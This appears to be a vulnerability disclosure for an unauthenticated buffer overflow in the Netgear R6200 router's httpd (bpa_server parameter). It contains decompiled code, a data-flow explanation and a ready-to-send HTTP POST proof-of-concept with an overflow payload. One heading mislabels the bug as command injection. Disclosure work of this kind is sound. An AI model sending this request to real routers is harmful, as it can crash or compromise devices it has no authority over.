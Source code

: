# Buffer Overflow Vulnerability in `bpa_server`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | Netgear R6200 Router                                         |
| Firmware Version     | V1.0.1.58_1.0.44                                             |
| Vulnerability Type   | **Buffer Overflow**                                          |
| Vulnerable Component | `httpd` (`basicCgiCdlBpa` → `blkGetDetWanResultCgi`) (data flow via `bpa_server`) |
| Prerequisites        | No authentication required; attacker must supply crafted input via web interface parameter `bpa_server` |

2. Exploitation Path

```c
int __fastcall basicCgiCdlBpa(char *a1, int a2)
{
  ...
  char v7[256]; // [sp+18h] [-100h] BYREF
  websGetVar(a1, "bpa_idletime", v7);
  if ( atoi(v7) < 100 )
  {
    acosNvramConfig_set("bpa_idletime", v7);
    acosNvramConfig_set("wan_proto", &off_4ED680);
    websGetVar(a1, "bpa_server", v7);
    acosNvramConfig_set("bpa_server", v7);
    ...
}
  
int __fastcall blkGetDetWanResultCgi(int a1, int a2)
{
  ...
  char v13[150]; // [sp+30h] [-298h] BYREF
	...
  else if ( stristr(v14, &off_4ED680) )
  {
    dword_5CA200 |= 8u;
    v8 = (const char *)acosNvramConfig_get("bpa_server");
    strcpy(v13, v8);
    ...
}
```

3. **Vulnerable Binaries:** The vulnerability resides in the `httpd` binary.

4. 0-Day Command Injection Exploitation Path: Within the `httpd` binary, the `basicCgiCdlBpa` function at line 10 calls `websGetVar(a1, "bpa_server", v7)` to receive input. While a 255-byte length limit is enforced, no further validation is applied. The input is then temporarily stored via `acosNvramConfig_set("bpa_server", v7)` at line 11. Subsequently, the `blkGetDetWanResultCgi` function retrieves this value at line 23 using `v8 = (const char *)acosNvramConfig_get("bpa_server")`. Finally, at line 24, the data is copied into the destination buffer `v13` via `strcpy(v13, v8)`, where `v13` has a size of 150 bytes, resulting in a buffer overflow vulnerability.

5. Proof of Concept (PoC) for Reproducing the Vulnerability


```http
POST /cgi-bin/basicCgiCdlBpa HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 300
Connection: close

bpa_server=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```